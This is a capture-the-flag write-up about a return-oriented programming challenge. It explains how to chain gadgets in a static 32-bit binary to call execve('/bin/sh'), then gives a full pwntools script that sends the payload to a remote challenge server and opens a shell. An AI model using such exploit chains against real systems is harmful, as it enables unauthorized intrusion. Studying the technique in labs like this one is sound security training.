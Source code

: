FLAG{REDACTED}

---

Graduating from a single rop gadget, we move to larger rop chains. The goal in this one was to pop a shell.  
Since it is a statically compiled binary, we have a lot of rop gadgets to play with. While there is no `/bin/sh`, the pointer to the buffer we overflow is put loaded into `eax` after the call.

1. As the buffer is read in using fgets, we can simulate the string by putting `/bin/sh\x00` into the buffer. This way, the "string" in the buffer is only 8 bytes long.
2. Set the registers appropriately as:
   1. `eax = 0xb` ---> execve
   2. `ebx = <address of the buffer>` ---> `/bin/sh\x00`
   3. `ecx = 0`
   4. `edx = 0`
3. Run a syscall using `int 0x80`
4. `cat flag`

```python
#!/usr/bin/python3

from pwn import *

#p = process('./static')
p = remote('plsdonthaq.me', 6002)

#gdb.attach(p)

# put binsh at the front of the buffer
binsh = b'/bin/sh\x00'
padding = b'A' * 8

# set eax
eaxEdit = p32(0x08091f17)

# set ecx
ecxEdit = p32(0x0806b32c)
ecxEdit2 = p32(0x080c49cf)

# set edx
edxEdit1 = p32(0x080562ab)
edxEdit2 = p32(0x0809c216)
edxPadding = b'A'*12

# int 0x80
syscall = p32(0x08049533)

# mov ecx, eax
movEaxToEdi = p32(0x0806af9d)
movEdiToEdx = p32(0x0809c216)
movEdxToEbx = p32(0x0806d956)
movEdiToEdxPadding = b'A' * 12

p.sendline(binsh + padding + movEaxToEdi + movEdiToEdx + movEdiToEdxPadding + movEdxToEbx + ecxEdit + ecxEdit2 + edxEdit1 + edxEdit2 + edxPadding + eaxEdit + b'AAAA' + syscall)

p.interactive()
```
